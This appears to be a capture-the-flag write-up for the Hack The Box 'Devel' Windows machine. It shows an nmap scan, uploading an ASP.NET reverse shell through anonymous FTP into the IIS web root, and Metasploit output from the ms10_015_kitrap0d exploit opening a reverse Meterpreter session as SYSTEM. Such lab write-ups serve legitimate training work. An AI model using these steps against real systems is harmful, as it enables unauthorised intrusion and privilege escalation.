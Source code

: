 ```yaml
---
layout: post
title: Devel
date: 2020-03-30
author: OutHackThem
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Devel writeup

Easy Windows machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/main.png)


Let's do a quick nmap all ports

```perl

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 09:54 EDT
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds

```

<br>

### Enumeration

- Found that ftp anonymous login was allowed and using that I could upload files on to the IIS server web directory which in simpler words mean a shell.
- I used the InsomniaShell shell which can be found here `https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/`


![user shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/ushell.png)

I upgraded the normal shell to meterpreter and used local exploit usggester to see if I can priv esec.



![local_exploit_suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/exploitsuggest.png)



### Exploitation

Used the ms10-015 exploit and got Nt authority

```perl

msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.3:555 
[*] Launching notepad to host the exploit...
[+] Process 3444 launched.
[*] Reflectively injecting the exploit DLL into 3444...
[*] Injecting exploit into 3444 ...
[*] Exploit injected. Injecting payload into 3444...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.3:555 -> 10.10.10.5:49159) at 2020-03-30 14:05:32 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 


```
